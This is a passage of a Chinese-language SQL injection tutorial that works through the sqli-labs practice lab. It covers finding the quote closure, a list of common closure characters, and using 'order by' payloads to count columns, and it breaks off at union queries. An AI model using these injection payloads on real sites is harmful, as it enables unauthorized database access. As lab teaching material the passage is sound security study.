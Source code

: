 输入反斜杠 `\` 来判断页面使用的哪种闭合方式

```
http://192.168.1.76/sqli-labs/Less-1/?id=1\
```

> 报错 `'1\' LIMIT 0,1` ， `\` 转义符后的 `'` 被转义，相当于 `'1 LIMIT 0,1` 造成报错，说明此 sql 语句基于 `'` 闭合。

| 常见手动 sql 注入的闭合方式 |
| :-------------------------: |
|              '              |
|              "              |
|              )              |
|             ')              |
|             ")              |
|             "))             |

## 7 判断字段数量

### 7.1 数字型

提交正确的逻辑，利用 order by 判断有几个字段

```
http://pu2lh35s.ia.aqlab.cn/?id=1 and 1=1 order by 4
```

> 当写入使用第 4 个字段排序时报错，说明后台查询有 3 个字段

### 7.2 字符型

浏览器访问

>http://192.168.1.76/sqli-labs/Less-1/

使用 HackBar 写入 order by 判断有几个字段，注意闭合

```
http://192.168.1.76/sqli-labs/Less-1/?id=1' order by 4 --+
```

> 当写入使用第 4 个字段排序时报错，说明后台查询有 3 个字段
>
> 不一定是数据表的字段数，原因是后台查询可能不是 `select *` 可能是 `select id,username` 此时只有两个字段，当 `order by 3`  时即会报错

## 8 联合查询

使用 `union` 的查询方式

> 使用 `union` 时需要使 `union` 之前的语句出现逻辑错误，才会显示之后的反馈

> http://192.168.1.76/sqli-labs/Less-1/
